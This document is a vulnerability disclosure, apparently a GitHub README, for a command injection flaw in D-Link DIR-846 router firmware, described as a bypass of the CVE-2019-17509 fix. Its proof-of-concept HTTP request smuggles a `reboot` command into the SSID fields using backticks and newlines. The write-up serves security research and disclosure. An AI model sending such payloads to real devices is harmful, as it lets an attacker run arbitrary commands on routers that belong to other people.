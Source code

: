 # DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43 link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

DIR846enFW100A53DLA-Retail.bin link https://la.dlink.com/la/ftp_download.php?arch=DIR-846/DIR846enFW100A53DLA-Retail.bin

#### Describe

​	The latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  has a command injection vulnerability in HNAP1/control/SetMasterWLanSettings.php. Attackers can use this vulnerability to use "\n" or backticks to bypass the shell metacharacters in the ssid0 or ssid1 parameters to execute arbitrary commands.

#### Detail

​	This vulnerability is due to the fact that **CVE-2019-17509** is not fully patched and can be bypassed by using line breaks or backticks on its basis.

<img src="./img/image-20211226102113922.png" alt="image-20211226102113922" style="zoom:50%;" />

#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```



#### TEXT

​	The following data packets will cause the router to restart	<img src="./img/image-20211226102955168.png" alt="image-20211226102955168" style="zoom:50%;" />

